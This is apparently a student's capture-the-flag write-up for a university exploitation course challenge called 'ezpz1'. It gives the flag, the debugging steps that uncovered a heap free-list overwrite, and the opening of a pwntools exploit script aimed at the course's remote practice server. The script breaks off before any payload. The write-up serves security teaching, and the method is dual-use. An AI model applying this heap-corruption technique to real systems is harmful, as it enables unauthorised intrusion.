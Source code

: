 z5214048
War 7
=====================

(war? War never changes)

ezpz1 
==================

Flag: COMP6447{heap_is_not_really_trivial}

General overview of problems faced
-------------------------------------
Had to hack the program

. I tried to do the following:
1. Populate program with 20 random questions
2. Lets say the "target" is q4. input shellcode (or  actually any string) into it -> so far so good
3.1 Delete q4, ask q4 -> crash. Though GDB says that the program jumps into q4 question string and crashes to matter what are the next commands (non executable area? I guess I should have expected that)
3.2 Delete q4, create a new question ->  crash
3.3 Delete q4 *twice*, create new question, ask it -> empty

4. following through in gdb, step by step, to why it crashes
5. Yo discovered something! The program's dumb, so the question's inner struct depends on the prev Qn. Overwrite fd address like ez!

Script/Command used
------------------

```
#python2

import string
import json

from pwn import *

NAME = "./ezpz1"
context.binary = NAME

def io_beg(): 
	return remote("plzpwn.me", 7001)
	#return process(NAME)

def header(s, len=20):
	print("="*len +s+"="*len)


def io_rdy(io):
	io.recvuntil("[Q]uit")
	print("Ready")

def io_q(io):
	io.sendline("q")
	
def io_c(io):
	io.sendline("c")
	io.recvuntil("Created new question. ID")
	buf = io.recvline().strip()
	io_rdy(io)
	return int(buf)
	
def io_d(io, id):
	io.sendline("d")
	io.recvuntil("Enter question id: ")
```